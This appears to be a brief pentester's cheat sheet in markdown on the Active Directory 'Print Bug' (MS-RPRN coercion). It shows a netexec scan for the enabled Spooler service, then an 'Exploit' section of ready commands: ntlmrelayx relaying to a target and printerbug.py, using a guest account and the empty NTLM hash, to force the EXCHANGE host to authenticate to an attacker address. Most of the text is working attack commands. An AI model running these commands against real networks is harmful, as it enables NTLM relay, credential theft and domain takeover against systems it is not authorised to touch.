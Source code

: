 # Print Bug

Check: 

```
$ netexec smb 192.168.23.0/24 -u 'guest' -p '' -M spooler

SPOOLER     192.168.23.146  445    EXCHANGE         Spooler service enabled
```

Exploit : 

```
$ ntlmrelayx.py -debug -t dev.cubano.local
$ python3 printerbug.py cubano.local/guest@EXCHANGE.manesec.local 10.10.16.172 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
```


`31d6cfe0d16ae931b73c59d7e0c089c0` mean no password.

# Reference

+ https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn